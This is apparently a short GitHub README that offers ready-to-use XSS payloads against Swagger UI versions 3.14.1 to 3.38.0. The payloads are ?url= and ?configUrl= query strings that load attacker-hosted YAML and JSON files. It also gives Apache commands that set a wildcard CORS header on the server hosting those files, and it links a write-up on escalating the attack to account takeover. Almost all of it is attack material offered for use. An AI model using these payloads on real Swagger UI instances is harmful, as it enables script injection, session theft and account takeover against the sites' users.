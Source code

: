 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-domain.yaml`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-fetch.yaml`
### `configUrl`

`?configUrl=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/

test.json -> test.yaml
`?configUrl=https://xxx.xxx.xxx/test.json`

### `apache CORS bug`
`a2enmod headers`

`vim /etc/apache2/apache2.conf`

```
<Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
        Header set Access-Control-Allow-Origin "*"
</Directory>
```

`apachectl -t`

`sudo systemctl restart apache2` or `sudo service apache2 restart`



## From :)

https://github.com/VictorNS69/swagger-ui-xss

https://github.com/seanmarpo/swagger-xss-payloads#swagger-xss-payloads
